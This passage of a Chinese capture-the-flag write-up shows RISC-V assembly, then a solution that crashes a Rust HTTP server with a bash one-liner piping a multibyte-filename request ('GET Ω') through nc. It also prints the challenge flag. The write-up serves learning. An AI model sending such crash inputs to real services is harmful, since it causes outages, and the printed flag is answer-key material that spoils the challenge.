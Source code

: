 ```assembly
    lw x21, 44(x5)         # x21 = MEM[x5 + 44]
    lw x22, 48(x5)         # x22 = MEM[x5 + 48]
    lw x23, 52(x5)         # x23 = MEM[x5 + 52]
    lw x24, 56(x5)         # x24 = MEM[x5 + 56]
    lw x25, 60(x5)         # x25 = MEM[x5 + 60]

# 循环插入在这里

    li x5, 0xfc0

    sw x10, 0(x5)         # MEM[x5 + 0] = x10
    sw x11, 4(x5)         # MEM[x5 + 4] = x11
    sw x12, 8(x5)         # MEM[x5 + 8] = x12
    sw x13, 12(x5)        # MEM[x5 + 12] = x13
    sw x14, 16(x5)        # MEM[x5 + 16] = x14
    sw x15, 20(x5)        # MEM[x5 + 20] = x15
    sw x16, 24(x5)        # MEM[x5 + 24] = x16
    sw x17, 28(x5)        # MEM[x5 + 28] = x17
    sw x18, 32(x5)        # MEM[x5 + 32] = x18
    sw x19, 36(x5)        # MEM[x5 + 36] = x19
    sw x20, 40(x5)        # MEM[x5 + 40] = x20
    sw x21, 44(x5)        # MEM[x5 + 44] = x21
    sw x22, 48(x5)        # MEM[x5 + 48] = x22
    sw x23, 52(x5)        # MEM[x5 + 52] = x23
    sw x24, 56(x5)        # MEM[x5 + 56] = x24
    sw x25, 60(x5)        # MEM[x5 + 60] = x25

_end:
	j _end
```

## 动画分享

> 比赛结束后拿着这段代码去问了一个在生产环境写了两年 Rust 的朋友，结果他一点问题都没看出来

### 只要不停下 HTTP 服务，响应就会不断延伸

[拷打了一会 ChatGPT](https://chatgpt.com/share/67303b8d-71a4-800d-89c4-30b8f0891dc1)，他告诉我如果用 multibyte character 当作文件名的话 `let file_path = &path[1..];` 会 panic。于是我们可以构建这样一个请求：

```sh
#!/bin/bash
echo -e "GET Ω HTTP/1.1\r\n\r\n" | nc localhost 8000
```

**`flag{wa1t_no0O0oooO_mY_b1azIngfA5t_raust_f11r5erVer_5311135c89}`**


## 关灯

> `MemoryError: Unable to allocate 9.95 TiB for an array with shape (3307949, 3307949) and data type bool`  
> ~~主唱太拼命了！~~
